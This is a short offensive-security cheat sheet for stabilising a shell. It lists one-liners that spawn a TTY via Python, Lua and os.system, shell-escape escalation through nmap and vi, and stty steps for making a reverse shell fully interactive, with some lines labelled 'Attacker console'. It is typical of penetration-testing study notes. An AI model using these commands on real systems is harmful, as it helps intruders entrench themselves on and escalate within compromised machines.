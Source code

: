 ## **TTY Shell:**

```sql
python -c 'import pty;pty.spawn("/bin/bash")'
```

```sql
echo os.system('/bin/bash')
```

-   LUA
	```sql
	execute('/bin/sh')
	```

-   Privilege Escalation via nmap
	```sql
	!sh
	```
	
-   Privilege Escalation via vi
	```sql
	:!bash
	```


## Fully Interactive TTY
```sql

						 	In reverse shell 
python -c 'import pty; pty.spawn("/bin/bash")'Ctrl-Z                                

						  	In Attacker console
stty -a
stty raw -echo
fg                            

							In reverse shell
reset xterm
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>

```

```sql

						 	In reverse shell 
script /dev/null -c bash Ctrl-Z                                

						  	In Attacker console
stty raw -echo; fg                            

							In reverse shell
reset xterm
Terminal type?: xterm 
export TERM=xterm
export shell=bash 
stty rows 52
```
